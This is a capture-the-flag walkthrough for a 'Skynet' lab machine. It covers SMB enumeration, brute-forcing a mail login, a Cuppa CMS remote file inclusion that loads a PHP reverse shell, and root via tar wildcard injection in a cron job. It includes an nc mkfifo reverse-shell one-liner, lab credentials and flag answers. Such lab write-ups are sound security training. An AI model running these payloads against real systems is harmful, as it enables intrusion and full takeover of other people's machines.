

# Skynet

## Introduction

This is a easy-rated challenge involving endpoint enumeration and privilege escalation.



## Port Scan

As usual, we can run RustScan to locate all the opening ports

```bash
└─$ rustscan -a skynet.thm --ulimit 5000 -- -A
...
Open xx.xx.xxx.xx:22
Open xx.xx.xxx.xx:80
Open xx.xx.xxx.xx:110
Open xx.xx.xxx.xx:139
Open xx.xx.xxx.xx:143
Open xx.xx.xxx.xx:445
...
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKeTyrvAfbRB4onlz23fmgH5DPnSz07voOYaVMKPx5bT62zn7eZzecIVvfp5LBCetcOyiw2Yhocs0oO1/RZSqXlwTVzRNKzznG4WTPtkvD7ws/4tv2cAGy1lzRy9b+361HHIXT8GNteq2mU+boz3kdZiiZHIml4oSGhI+/+IuSMl5clB5/FzKJ+mfmu4MRS8iahHlTciFlCpmQvoQFTA5s2PyzDHM6XjDYH1N3Euhk4xz44Xpo1hUZnu+P975/GadIkhr/Y0N5Sev+Kgso241/v0GQ2lKrYz3RPgmNv93AIQ4t3i3P6qDnta/06bfYDSEEJXaON+A9SCpk2YSrj4A7
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0UWS0x1ZsOGo510tgfVbNVhdE5LkzA4SWDW/5UjDumVQ7zIyWdstNAm+lkpZ23Iz3t8joaLcfs8nYCpMGa/xk=
|   256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICHVctcvlD2YZ4mLdmUlSwY8Ro0hCDMKGqZ2+DuI0KFQ
80/tcp  open  http        syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        syn-ack ttl 62 Dovecot pop3d
|_pop3-capabilities: SASL RESP-CODES PIPELINING AUTH-RESP-CODE CAPA TOP UIDL
139/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        syn-ack ttl 62 Dovecot imapd
|_imap-capabilities: SASL-IR have LOGINDISABLEDA0001 Pre-login LITERAL+ post-login more IMAP4rev1 ENABLE listed LOGIN-REFERRALS IDLE capabilities OK ID
445/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (94%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

We can find there are 6 opening ports, they are:

- Port 22: SSH
- Port 80: HTTP
- Port 110: Pop3
- Port 139: NetBIOS
- Port 143: [IMAP](https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol) — Retrieve mails from mail server
- Port 445: Microsoft Direct SMB

## HTTP Endpoints Enumeration

Going to port `80`, and we will see the Skynet page. The search engine does nothing and the page reveals no useful info.


### Found Squirrel Mail

Doing A little enumeration, we will find `/squirrelmail`

```bash
└─$ ffuf -u http://skynet.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://skynet.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 523, Words: 26, Lines: 19, Duration: 100ms]
.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 102ms]
.hta                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 104ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 104ms]
admin                   [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 95ms]
config                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 99ms]
css                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 99ms]
index.html              [Status: 200, Size: 523, Words: 26, Lines: 19, Duration: 97ms]
js                      [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 99ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 101ms]
squirrelmail            [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 98ms]
:: Progress: [4614/4614] :: Job [1/1] :: 396 req/sec :: Duration: [0:00:11] :: Errors: 0 ::

```

However because we do not know the credentials, we should take a look at other ports first.


## SMB Share Discovery

### Anonymous Share Found

I then take a look at SMB, and found that there is an `anonymous` share using `smbmap` with `-H` flag specifying the host.

The `milesdyson` share seems worth taking a look, and we will go back once we know the password.

```bash
└─$ smbmap -H skynet.thm

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: xx.xx.xxx.xx:445        Name: skynet.thm                Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections                                                                                                     

```

Then we can take a look at the `anonymous` share using `smbclient`, and we found `attention.txt` and `log1.txt`

```bash
─$ smbclient //skynet.thm/anonymous -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Nov 27 00:04:00 2020
  ..                                  D        0  Tue Sep 17 15:20:17 2019
  attention.txt                       N      163  Wed Sep 18 11:04:59 2019
  logs                                D        0  Wed Sep 18 12:42:16 2019

                9204224 blocks of size 1024. 5829184 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 163 as attention.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 12:42:16 2019
  ..                                  D        0  Fri Nov 27 00:04:00 2020
  log2.txt                            N        0  Wed Sep 18 12:42:13 2019
  log1.txt                            N      471  Wed Sep 18 12:41:59 2019
  log3.txt                            N        0  Wed Sep 18 12:42:16 2019

                9204224 blocks of size 1024. 5829184 blocks available
smb: \logs\> get log1.txt
getting file \logs\log1.txt of size 471 as log1.txt (1.1 KiloBytes/sec) (average 0.8 KiloBytes/sec)

```

### Squirrel Mail Password list Found

The files reveal there is a password reset and some potential passwords

```bash
└─$ cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

└─$ cat log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

## Squirrel Mail

### Brute force the password

With that, we can go back to `/squirrelmail`, and try every password to login as `milesdyson`.

Turns out `cyborg007haloterminator` is the correct password.


With `milesdyson:cyborg007haloterminator`, we can login to Squirrel Mail


### SMB Credentials Found

Inside one of the mail, we learn that the SMB password of `milesdyson` is `)s{A&2Z=F^n_E.B``


### Remaining mails (Easter Eggs)

There are also two mails, but they can be treated as easter eggs.

One of them contains binary


Using Cyberchef, we get back the original message


The earliest email show a similar message


## SMB miledyson Share

Now we can take a look at the `miledyson` share with the password `)s{A&2Z=F^n_E.B``

Inside the share, there are lots of document, but the one that catch my attention is `important.txt`

```bash
└─$ smbclient //skynet.thm/milesdyson -U milesdyson
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 17:05:47 2019
  ..                                  D        0  Wed Sep 18 11:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 17:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 17:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 17:05:14 2019
  notes                               D        0  Tue Sep 17 17:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 17:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 17:05:14 2019

                9204224 blocks of size 1024. 5826188 blocks available
smb: \> cd notes
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 17:18:40 2019
  ..                                  D        0  Tue Sep 17 17:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 17:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 17:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 17:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 17:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 17:01:29 2019
  important.txt                       N      117  Tue Sep 17 17:18:39 2019
 ...

                9204224 blocks of size 1024. 5826188 blocks available
smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)

```

### Secret Endpoint Found

The TXT file reveals the endpoint `/45kra24zxs28v3yd`

```bash
└─$ cat important.txt                                                                                                                                                                                                                       

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

```

## HTTP Secret Endpoint

Go to `/45kra24zxs28v3yd`, and we saw Miles Dyson Personal Website 


### Found administrator Endpoint

Same as before, we can do some enumeration, and discover the `administrator` endpoint

```bash
└─$ ffuf -u http://skynet.thm/45kra24zxs28v3yd/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://skynet.thm/45kra24zxs28v3yd/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

administrator           [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 101ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 2812ms]
.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 2806ms]
                        [Status: 200, Size: 418, Words: 45, Lines: 16, Duration: 3813ms]
.hta                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 4825ms]
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16, Duration: 97ms]
:: Progress: [4614/4614] :: Job [1/1] :: 391 req/sec :: Duration: [0:00:14] :: Errors: 0 ::

```

### Cuppa CMS

Go to `administrator`, we saw it is running Cuppa CMS


The `forget_password` option also getting commented, meaning we can only exploit Cuppa CMS in some way

```bash
<!--
    <a class="forgot_password" onclick="ShowPanel('forget')">Forgot Password?</a>
-->
```

### Cuppa CMS Exploitation

Using `searchsploit`, I found there is a `Remote File Inclusion` vulnerability

```bash
└─$ searchsploit cuppa
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                                           | php/webapps/25971.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

The exploit itself is very simple, we use the `urlConfig` parameter in `alertConfigField.php` to run arbitrary commands in this format format: `/alerts/alertConfigField.php?urlConfig=<Command>`

Following the guide from `searchsploit`, I was able to run `php://filter/convert.base64-encode/resource=../Configuration.php` successfully, which base64 encode the `configuration.php`. 


Using CyberChef, I was able to see the username and password, but I was still unable to login.


## Reverse Shell

To continue, maybe the best way is to use a [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Use the python module `http.server`  to host the PHP file and a `nc` listener for the connection.

When I access to `http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://xx.xx.xx.xx:8000/r_shell.php`, It will download the PHP file.

```bash
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
xx.xx.xxx.xx - - [19/May/2026 22:42:22] "GET /r_shell.php HTTP/1.0" 200 -

```

And the `nc` listener will be able to establish an reverse shell connection 

```bash
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [xx.xx.xxx.xx] 43156
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:42:22 up  2:24,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

```

I suggest running the following commands to upgrade the reverse shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Then we can go to `/home/milesdyson` to read the `user.txt` flag

```bash
www-data@skynet:/$ cd /home
cd /home
www-data@skynet:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root       root       4096 Sep 17  2019 .
drwxr-xr-x 23 root       root       4096 Sep 18  2019 ..
drwxr-xr-x  5 milesdyson milesdyson 4096 Sep 17  2019 milesdyson
www-data@skynet:/home$ cd milesdyson
cd milesdyson
www-data@skynet:/home/milesdyson$ ls
ls
backups  mail  share  user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
cat user.txt
7ce5c2109a40f958099283600a9ae807

```

User flag: `7ce5c2109a40f958099283600a9ae807`

## Privilege Escalation

Inside `milesdyson` home directory, we can see there is a `backup.sh`

```bash
www-data@skynet:/home/milesdyson$ ls -la backups
ls -la backups
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 May 19 09:48 backup.tgz
www-data@skynet:/home/milesdyson$ cd backups    
cd backups
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

If we check `crontab`, we will notice it is executed every minute by `root`

```bash
www-data@skynet:/home/milesdyson/backups$ cat /etc/crontab 
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

```

I then search on the Internet, and found that tar is actually [exploitable](https://gtfobins.org/gtfobins/tar/)

Tar can spawn a shell using the following

```bash
tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

When we have `checkpoint` set, we can specify what action tar will execute in `checkpoint-action`.

In this case, we can create two files called `--checkpoint=1` and `--checkpoint-action=exec=sh shell.sh`, so when we tell tar to execute a reverse shell (root) stored in `shell.sh`

This time, I use the `nc mkfifo` in [Reverse Shell Generator](https://www.revshells.com/) to generate the reverse shell.

The full exploit will be like this

```bash
www-data@skynet:/var/www/html$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc xx.xx.xx.xx 1235 >/tmp/f'>shell.sh

www-data@skynet:/var/www/html$ touch -- --checkpoint=1

www-data@skynet:/var/www/html$ touch -- "--checkpoint-action=exec=sh shell.sh"
```

Launch a reverse shell and get the root flag

```bash
root@ip-xx-xx-xx-xx:~# nc -lvnp 1235
Listening on 0.0.0.0 1235
Connection received on xx.xx.xxx.xx 47190
sh: 0: can't access tty; job control turned off
# whoami
root
# ls /root
root.txt
# cat /root/root.txt
3f0372db24753accc7179a282cd6a949
# 
```

Root Flag: `3f0372db24753accc7179a282cd6a949`
